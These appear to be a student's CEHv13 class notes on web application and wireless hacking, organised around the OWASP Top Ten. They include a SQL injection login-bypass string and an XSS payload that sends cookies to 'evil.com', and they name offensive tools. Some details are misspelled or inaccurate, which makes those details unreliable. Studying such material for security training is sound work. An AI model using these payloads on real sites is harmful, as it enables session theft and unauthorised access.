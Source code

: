 
# CEHv13 Class 9 Notes

# Hacking Web Applications

## Topics Covered
- SQL Injection
- Hacking Wireless Networks
- Hacking Mobile Platforms

### Tools
- zaproxy
- Checkmarx
- synk
- accnitex

---

## OWASP Top Ten

- [OWASP Top Ten Project](https://owasp.org/www-project-top-ten/)
- ![OWASP Mapping](https://owasp.org/www-project-top-ten/assets/images/mapping.png)

### A01:2021 - Broken Access Control
- RBAC - Role Based Access Control
- MAC - Mandatory Access Control
- Privilege Escalation - Admin Control

### A02:2021 - Cryptographic Failures
1. Weak Encryption Algorithms
2. Lack of Encryption

Examples: MITM, Session Hijacking, arpspoof  
Encryption Methods: HTTPS, SSH

### A03:2021 - Injection
- Input Fields: Username/Password, Comments, Search Bar, Forms

#### SQL Injection
```sql
SELECT * FROM FB_LOGIN_DATA WHERE Username='admin' OR '1'='1' && PWD='admin' OR '1'='1';
```
- Tool: sqlmap
- Prevention: Content Filtering, Whitelisting, Web Application Firewall (WAF)

#### Cross Site Scripting (XSS)
```html
<script>alert('Welcome to simplilearn')</script>
<script>window.location="http://evil.com/?cookie=" + document.cookie</script>
```
- Types: Stored XSS, Reflected XSS

#### Command Injection
Commands:
- ifconfig, ipconfig, netstat, nslookup, nmap, ping

### A04:2021 - Insecure Design
- Architecture flaws, threat modeling
- [Microsoft Threat Modeling Tool](https://learn.microsoft.com/en-us/azure/security/develop/threat-modeling-tool-getting-started)

### A05:2021 - Security Misconfiguration
1. Default Credentials
2. Unnecessary Services: 21, 22, 23, 25, 3389, 1433, 80, 443
3. Improper Error Handling
4. Open Access Controls (Least Privileges, MAC, RBAC)

### A06:2021 - Vulnerable and Outdated Components
- Risk acceptance with outdated OS like Windows XP/2007
- Preferred: Windows 10/11

### A07:2021 - Identification and Authentication Failures
- Password cracking
- Strong passwords & 2FA

### A08:2021 - Software and Data Integrity Failures
- Hashing, Digital Signatures
```
Hash examples:
- 3391ad6e1cc8c157568236ca9aee796748ec63881de4186cadd618a8fcba681f
- dac6a7381c81c02fb8f9b3720b98e88e4248f870a80e6249218995673c5faaca
```

### A09:2021 - Security Logging and Monitoring Failures
- 24/7/365 monitoring
- SOC
- `clearev`

### A10:2021 - Server-Side Request Forgery (SSRF)
- Targets: Remote resources, FTP, SSH, RDP, Local (e.g., 123.23.1.12)

---

## Wireless Hacking

### Technologies
- WIFI, Bluetooth, NFC, GSM

### Standards
- IEEE (Institute of Electrical and Electronic Engineers)
- 802.11a (Wireless Fidelity - WIFI)

### WIFI Security
- WEP - Wired Equivalent Privacy
- WPA - WiFi Protected Access
- WPA2 - WPA with AES128
- WPA3 - WPA with SHA384

### Tools
- airmon-ng
- airodump-ng
- aircrack-ng